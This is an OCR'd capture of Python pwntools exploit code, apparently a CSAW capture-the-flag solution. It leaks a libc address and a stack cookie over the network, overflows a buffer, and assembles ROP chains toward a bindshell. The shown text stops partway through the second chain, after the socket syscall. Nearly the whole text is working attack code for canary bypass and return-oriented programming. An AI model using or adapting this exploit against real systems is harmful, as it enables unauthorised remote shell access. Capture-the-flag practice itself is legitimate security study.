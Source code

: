 		#HOST = "pwn.chal.csaw.io"
		#PORT = 8002
		
		r = remote(HOST,PORT)
		payload = "A"*300
		
		#Dump output from service
		for x in xrange(0,4):
			print r.recvline()
		
		r.sendline("1")
		#Extract/strip/calculate the libc starting address
		reference = r.recvline()
		libcadr = int(reference.split(":")[1].strip('\n'),0)-456800
		print hex(libcadr)
		
		#Get the cookie
		r.sendline("2")
		print r.recvline()
		for x in xrange(0,4):
			print r.recvline()
		r.sendline(payload)
		
		#Spacing
		r.recvline()
		
		#Mem dump of cookie
		memdump = r.recvline()
		
		#Strip the cookie out
		memdump = memdump.rstrip("-Tutorial-\n")
		cookie = struct.unpack("<Q",memdump[len(memdump)-12:len(memdump)-4])
		print hex(cookie[0])
		
		#Spacing
		for x in xrange(0,3):
			print r.recvline()
		
		cookie = struct.pack("<Q",cookie[0])
		
		#Rop chain for extra space for the next bindshell rop chain
		#read(pipe,stack,0x700)
		init = ''
		init += struct.pack('<Q',libcadr+0xbcdee) # xor eax,eax; pop rdx; ret
		init += struct.pack('<Q',0x700) #Rop chain size
		init += struct.pack("<Q",libcadr+0xc1d05) # syscall; ret
		
		#initial payload
		payload = "A"*(300)+"B"*4+"C"*4+"D"*4+cookie+"E"*4+"F"*4+init
		
		#Final payload - bindshell
		p = ''
		p+= struct.pack('<Q',libcadr+0x00000000000b4a21) # xor edx, edx ; add rsp, 8 ; mov rax, rdx ; ret
		p+= struct.pack('<Q',0x4141414141414141) #Pad
		p+= struct.pack('<Q',libcadr+0x000000000003763d) # xor eax, eax ; nop ; ret
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x29)              # rax = 0x29
		p+= struct.pack('<Q',libcadr+0x00024885)#pop rsi
		p+= struct.pack('<Q',0x1)               # rsi = 0x1
		p+= struct.pack('<Q',libcadr+0x00022b9a)#pop rdi
		p+= struct.pack('<Q',0x2)	        # rdi = 0x2
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Socket(2,1,0)
		